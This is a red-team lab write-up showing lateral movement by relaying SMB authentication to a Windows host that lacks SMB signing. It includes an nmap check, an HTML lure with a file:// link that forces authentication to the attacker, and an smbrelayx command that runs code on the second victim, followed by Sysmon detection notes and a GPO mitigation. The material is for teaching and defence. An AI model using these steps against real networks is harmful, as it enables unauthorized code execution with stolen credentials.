```yaml
---
layout: post
title: "lateral movement via smb relaying by abusing lack of smb signing"
date: 2024-06-18
categories: lateral-movement
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /lateral-movement/
---
```


# Lateral Movement via SMB Relaying

This lab looks at a lateral movement technique abusing SMB protocol if SMB signing is disabled.&#x20;

SMB signing is a security mechanism that allows digitally signing SMB packets to enforce their authenticity and integrity - the client/server knows that the incoming SMB packets they are receiving are coming from a trusted source and that they have not been tampered with while in transit, preventing man in the middle type attacks.

If SMB signing is disabled, howeverm packets can be intercepted/modified and/or relayed to another system, which is what this lab is about.

## Environment

* 10.0.0.5 - attacker running Kali linux and smb relaying tool
* 10.0.0.2 - victim1; their credentials will be relayed to victim2
* 10.0.0.6 - victim2; code runs on victim2 with victim1 credentials

{% hint style="warning" %}
Credentials from Victim1 must be for a local admin on Victim2 or be a member of Administrators/Domain Administrators group for this attack to work successfully.
{% endhint %}

Below is a simplified process of how this attack works:

`10.0.0.2` -authenticates to-> `10.0.0.5` -relays to-> `10.0.0.6` executes code with victim1(10.0.0.2) credentials

## Execution

One of the ways to check if SMB signing is `disabled` on an endpoint:

{% code title="attacker@kali" %}
```csharp
nmap -p 445 10.0.0.6 -sS --script smb-security-mode.nse
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-31 10-45-27.png>)

Since we know that victim2@10.0.0.6 has SMB signing disabled and is vulnerable to SMB relaying attack, let's create a simple HTML file that once opened will force the victim1 to authenticate to attacker's machine:

{% code title="message.html" %}
```markup
<html>
    <h1>holla good sir</h1>
    <img src="file://10.0.0.5/download.jpg">
</html>
```
{% endcode %}

{% hint style="info" %}
Any other forced authentication method will also work - follow below link for a list of techniques.
{% endhint %}

{% content-ref url="../initial-access/t1187-forced-authentication.md" %}
[t1187-forced-authentication.md](../initial-access/t1187-forced-authentication.md)
{% endcontent-ref %}

...at the same time, let's fire up SMBRelayx tool that will listen for incoming SMB authentication requests and will relay them to victim2@10.0.0.6 and will attempt to execute a command `ipconfig`on the end host:

{% code title="attacker@kali" %}
```
smbrelayx.py -h 10.0.0.6 -c "ipconfig"
```
{% endcode %}

{% hint style="info" %}
Note that smbrelayx could be used with a `-e` switch that allows attacker to execute their payload file - say, a meterpreter executable.
{% endhint %}

Below is a gif showing the technique in action - on the left - `victim1@10.0.0.2` opening the malicious html we crafted earlier that forces it to attempt to authenticate to the attacker system (on the right). Once the authentication attempt comes in, it gets relayed to `victim2@10.0.0.6` and ipconfig gets executed:

![](<../../.gitbook/assets/Peek 2018-12-30 22-31.gif>)

A stop frame from the above gif that highlights that the code execution indeed happend on 10.0.0.6:

![](<../../.gitbook/assets/Screenshot from 2018-12-30 22-33-59.png>)

## Observations & Mitigation

Smbrelayx.py leaves a pretty good footprint for defenders in Microsoft-Windows-Sysmon/Operational - the parent image is services.exe and the commandline has juicy details - note though that the commandline arguments are subject to forgery:

![](<../../.gitbook/assets/Screenshot from 2018-12-31 13-29-13.png>)

In order to mitigate this type of attack, the best way to do it is by implementing GPOs if possible by setting the policy **Microsoft network server: Digitally sign communications (always)** to `Enabled`:

![](<../../.gitbook/assets/Screenshot from 2018-12-31 10-36-45.png>)

With the above change, trying to execute the same attack, we get `Signature is REQUIRED` errors message and lateral movement is prevented:

![](<../../.gitbook/assets/Screenshot from 2018-12-30 22-36-01.png>)

The same nmap scan we did earlier now also shows that the `message signing is required`:

{% code title="attacker@kali" %}
```csharp
nmap -p 445 10.0.0.6 -sS --script smb-security-mode
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-31 11-05-59.png>)

## References

{% embed url="https://ramnathshenoy.wordpress.com/2017/03/19/lateral-movement-with-smbrelayx-py/" %}

{% embed url="https://blogs.technet.microsoft.com/josebda/2010/12/01/the-basics-of-smb-signing-covering-both-smb1-and-smb2/" %}

{% embed url="https://nmap.org/nsedoc/scripts/smb-security-mode.html" %}
@spotheplanet
